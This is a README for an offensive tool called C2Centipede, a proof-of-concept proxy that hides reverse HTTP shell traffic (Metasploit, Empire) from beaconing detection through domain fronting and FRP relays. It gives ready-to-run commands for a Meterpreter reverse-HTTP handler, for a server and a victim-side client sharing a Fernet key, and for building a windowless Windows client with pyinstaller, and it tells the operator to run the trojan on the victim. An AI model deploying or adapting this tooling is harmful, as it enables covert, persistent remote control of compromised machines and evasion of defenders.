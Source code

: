 # C2Centipede (alpha)

## What is C2Centipede?
C2Centipede is a Proof of Concept proxy for reverse HTTP shell tools (like metasploit or empire) to evade beaconing detection by 1)reducing the beaconing 2)route the C2 communications from the trojan through different servers, currently using FRP reverse proxies or multiple Domain Fronts.

## How does it work?
There are two basic components of C2Centipede, client and server. The client is executed in the victim machine along the trojan (e.g. reverse http meterpreter) and receives the trojan's requests. The client will be in charge of faking answers to the trojan to keep it alive and choosing the route the trojan beacon should follow. The original HTTP request from the trojan is wrapped and encrypted using a Fernet symmetric key.

The server component receives the requests from the c2centipede client, decrypts them and sends them to the handler (Metasploit http handler, empire, etc), sending the answer back to the c2centipede client, along with it's own commands that affect the behaviour of the client. The operator can modify the behaviour of the client on the fly, for example by decreasing or increasing the number of fake answers to the trojan, or adding new routes the client can use to communicate with the server. The control data for C2Centipede is piggybacked on the trojans requests, so there is no additional "noise" in the network.

Additionally there is a GUI for the operator.


## Sample commands

### On the server
The server uses python3

1) Run your handler /msfconsole -x "use exploit/multi/handler;set payload python/meterpreter_reverse_http;set exitonsession false; set lport 8888; set lhost 0.0.0.0; run -j
You can use any reverse HTTP payload, not just python.


2) python3 c2c_server.py -p 9093 -d 127.0.0.1:8888 -a lalala:lelele -b -f xkJSFO2DKQyYxj9F6Q4XCXIviiFuxNzZjsEfNc9NgoM=

-p port to listen to
-d destination of the packages (This would be your MSF or Empire handler address)
-a authentication for the c2centipede server, the operator needs to know these to send commands to the c2centipede server.
-b beep (for debugging, you can listen to the beacons of your trojan)
-f Fernet key, symmetric shared with the client. (if not specified it will generate a new one)


3)Set your RFP proxies and/or CDNs.


### On the victim machine
The client uses python2 because _reasons_

1) python2 c2c_client.py -p 2233 -b 127.0.0.1 -s 127.0.0.1:9093 -f xkJSFO2DKQyYxj9F6Q4XCXIviiFuxNzZjsEfNc9NgoM=
-p port where the client listens to
-b bind to this interface
-s server addresses (direct connection, frp proxy or domain fronted host), you can add as many as you wish (or use -t to use a textfile with newline separated server addresses)
-f fernet symmetric key as specified on the server component.

Optionally, you can compile the client for windows using pyinstaller
wine pyinstaller.exe --onefile --noconsole c2c_client.py

2)Generate your meterpreter, empire or other trojan pointing to localhost and the port specified on the -p argument (in this case 2233)

3)Run the trojan

